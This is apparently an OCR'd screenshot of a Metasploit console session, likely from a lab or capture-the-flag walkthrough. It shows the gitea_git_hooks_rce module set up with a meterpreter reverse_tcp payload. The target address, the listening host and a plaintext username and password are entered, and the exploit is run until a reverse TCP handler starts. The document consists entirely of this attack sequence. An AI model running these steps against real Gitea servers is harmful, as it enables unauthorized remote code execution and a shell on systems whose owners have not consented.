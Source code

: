 ```bash
Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/gitea_git_hooks_rce

msf6 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_hooks_rce) > options

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                         g-metasploit.html
   RPORT      3000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host

   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                       machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper

View the full module info with the info, or info -d command.

msf6 exploit(multi/http/gitea_git_hooks_rce) > set RHOSTS 10.0.2.69
RHOSTS => 10.0.2.69
msf6 exploit(multi/http/gitea_git_hooks_rce) > set LHOST 10.0.2.60
LHOST => 10.0.2.60
msf6 exploit(multi/http/gitea_git_hooks_rce) > set username logan
username => logan
msf6 exploit(multi/http/gitea_git_hooks_rce) > set password Super_logan1234
password => Super_logan1234
msf6 exploit(multi/http/gitea_git_hooks_rce) > run

[*] Started reverse TCP handler on 10.0.2.60:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
```